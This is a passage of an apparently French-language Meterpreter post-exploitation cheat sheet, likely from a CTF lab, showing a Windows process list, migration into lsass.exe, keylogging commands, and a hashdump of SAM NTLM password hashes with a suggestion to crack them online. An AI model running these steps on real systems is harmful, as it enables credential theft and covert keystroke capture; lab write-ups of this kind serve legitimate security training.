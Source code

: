 ```shell
692   596   services.exe      x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\services.exe
700   692   sppsvc.exe        x64   0      NT AUTHORITY\NETWORK SERVICE 
716   596   lsass.exe         x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\lsass.exe
724   596   lsm.exe           x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\lsm.exe 
764   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM  
828   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM 
864   828   WmiPrvSE.exe   
900   692   svchost.exe       x64   0      NT AUTHORITY\NETWORK SERVICE 
952   692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1076  692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1164  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
1168  692   svchost.exe       x64   0      NT AUTHORITY\NETWORK SERVICE
1244  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
1276  1304  cmd.exe           x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe 
1304  692   spoolsv.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
1340  692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1388  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe[...]
```


## __Migrate__

On peut **migrer meterpreter vers un autre processus** pour **mieux interagir** avec. Par exemple si on voit un logiciel de traitement de texte comme word.exe ou notepad.exe, on peut capturer les entrées clavier avec `keyscan_start`, `keyscan_stop` et `keyscan_dump`.

```shell
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully. 
meterpreter >
```


## __Hashdump__

Pour **récupérer les mots de passes de la db SAM** (Security Account Manager), ils sont stocké au format NTLM (New Technology LAN Manager).  On peut les déchiffrer grâce à des db comme [CrackStation](https://crackstation.net/).

```shell
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: 
meterpreter >
```
